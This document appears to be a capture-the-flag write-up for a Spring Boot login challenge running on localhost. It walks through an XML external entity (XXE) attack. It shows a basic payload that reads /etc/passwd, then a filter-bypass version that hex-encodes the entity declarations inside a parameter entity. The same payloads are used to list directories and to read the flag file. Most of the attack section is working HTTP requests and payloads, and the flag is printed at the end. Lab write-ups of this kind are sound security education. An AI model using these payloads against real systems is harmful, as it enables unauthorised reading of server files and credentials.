




# esay_login


Direct access to the webpage will find the obvious error 404 page of the `spring boot` program.

And challenge description is  /api/login

The access interface will find a direct 400, indicating that this interface exists, and submit any data after converting to post:



You will find that `Content-Type` is returned as application/xml

Let's try to modify the request data and the requested Content-Type to application/xml:

```
POST /api/login HTTP/1.1
Host: 127.0.0.1:18080
Content-Type: application/xml
Content-Length: 33

<root>
<text>123</text>
</root>
```



Next try xxe, the simplest payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```



Filtering was found. Use the secondary encoding to bypass and get the payload:

```
POST /api/login HTTP/1.1
Host: 127.0.0.1:18080
Content-Type: application/xml
Content-Length: 329

<!DOCTYPE data [
<!ENTITY % xml "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x20;&#x68;&#x61;&#x68;&#x61;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x22;&#x66;&#x69;&#x6c;&#x65;&#x3a;&#x2f;&#x2f;&#x2f;&#x65;&#x74;&#x63;&#x2f;&#x70;&#x61;&#x73;&#x73;&#x77;&#x64;&#x22;&#x3e;&#x0a;"> %xml;]>
<data>&haha;</data>
```

Use file:/// to list directories:

```
<!DOCTYPE data [
<!ENTITY % xml "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x20;&#x68;&#x61;&#x68;&#x61;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x22;&#x66;&#x69;&#x6c;&#x65;&#x3a;&#x2f;&#x2f;&#x2f;&#x22;&#x3e;"> %xml;]>
<data>&haha;</data>
```




```
POST /api/login HTTP/1.1
Host: 127.0.0.1:18080
Content-Type: application/xml
Content-Length: 293

<!DOCTYPE data [
<!ENTITY % xml "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x20;&#x68;&#x61;&#x68;&#x61;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x22;&#x66;&#x69;&#x6c;&#x65;&#x3a;&#x2f;&#x2f;&#x2f;&#x66;&#x6c;&#x61;&#x67;&#x22;&#x3e;"> %xml;]>

<data>&haha;</data>
```

flag is `#text: MOCSCTF{L0gin_M3_XxE_1s_GREEEATful}`
